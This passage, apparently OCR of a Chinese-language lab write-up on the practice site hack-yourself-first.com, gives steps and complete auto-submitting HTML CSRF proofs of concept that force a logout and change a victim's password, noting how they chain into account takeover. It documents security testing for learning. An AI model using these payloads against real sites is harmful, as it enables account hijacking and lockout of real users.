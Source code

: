 更新 $email 和 $password 为相应的值，

"&#64" 是 "@" 符号
"&#46" 是 "." 符号

例如，如果您的电子邮件是 "example@hacker.com"，那么您的电子邮件将显示为 "example&#64;hacker&#46;com"，
但它将被解码为 "example@hacker.com"。

# 17 注销 CSRF

摘要：注销页面中的 CSRF（跨站请求伪造）使受害者从其账户注销。

复现步骤：点击 Log Off 并在 Burp 中捕获请求。然后右键点击请求，点击 Engagement Tools 并生成 CSRF PoC。在选项中启用“包含自动提交脚本”，点击重新生成并复制代码，放弃请求。现在在您的系统中创建一个 HTML 文件，粘贴复制的 CSRF PoC 并保存并运行该文件。现在您可以看到您已从您的账户注销。

影响：攻击者在使用 #14步 重置密码后，可以使用户注销，导致受害者的账户被永久锁定。

如果您没有 Burpsuite Pro，以下是 CSRF PoC:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://hack-yourself-first.com/Account/LogOff" method="POST">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 18 使用 CSRF 更改密码

摘要：CSRF（跨站请求伪造）使得攻击者能够更改受害者的密码。

复现步骤：进入更改密码页面，输入任意文本并在 Burp 中捕获请求。然后右键点击请求，选择“engagement tools”，生成 CSRF PoC。在选项中启用自动提交脚本，点击重新生成并复制代码，丢弃请求。现在，在你的系统中创建一个 HTML 文件，粘贴复制的 CSRF PoC 并保存，运行该文件。现在你可以看到你的密码已经被更改。

影响：攻击者可以重置受害者的密码，从而完全控制账户。

如果你没有 Burpsuite pro，这里是 CSRF PoC：

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://hack-yourself-first.com/Account/ChangePassword" method="POST">
      <input type="hidden" name="NewPassword" value="$newpassword" />
      <input type="hidden" name="ConfirmPassword" value="$newpassword" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
